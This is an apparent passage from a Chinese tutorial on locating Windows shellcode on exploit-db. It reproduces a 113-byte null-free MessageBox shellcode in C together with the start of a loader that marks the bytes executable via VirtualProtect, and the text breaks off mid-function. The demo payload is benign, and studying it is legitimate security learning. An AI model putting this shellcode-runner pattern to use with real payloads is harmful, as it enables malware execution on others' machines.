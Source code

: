 ![](./img/shelllist.png)                                      
2. 通过filter筛选平台为windows的                           
![](./img/filterwin.png)                                      
### [Windows - MessageBox + Null-Free Shellcode (113 bytes)](https://www.exploit-db.com/shellcodes/28996)
1. 代码
```c
#include <windows.h>
char code[] = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
"\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
"\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
"\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
"\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
"\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
"\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
"\x49\x0b\x31\xc0\x51\x50\xff\xd7";


int main(int argc, char **argv) 
{
	int(*func)();
	DWORD dwOldProtect;
	func = (int(*)()) code;
	VirtualProtect(func, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
```